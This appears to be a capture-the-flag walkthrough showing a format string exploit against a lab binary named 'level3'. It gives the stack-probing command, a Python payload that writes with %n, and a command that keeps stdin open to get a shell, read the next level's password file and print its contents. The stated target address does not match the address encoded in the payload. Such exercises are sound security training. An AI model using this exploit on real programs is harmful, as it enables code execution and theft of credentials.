 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb:
```shell
$ # find where our buffer is written in memory:
$ echo "AAAA %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141

$ # we know we need to write '64' at address '0x804888c', so we can use the `%n` modifier with 64 bytes before in the string to write to the address:
$ python -c 'print "\x8c\x98\x04\x08" + "\x90" * 60 + "%4$n"' > /tmp/exploit
                    |_ write 4b (addr)   |_ write 60 bytes

$ # the binary will execute system if the address 0x804888c contains "64", as we need to pipe into the binary we still need to keep stdin open to inject commands or the shell will exit prematurely:
$ cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

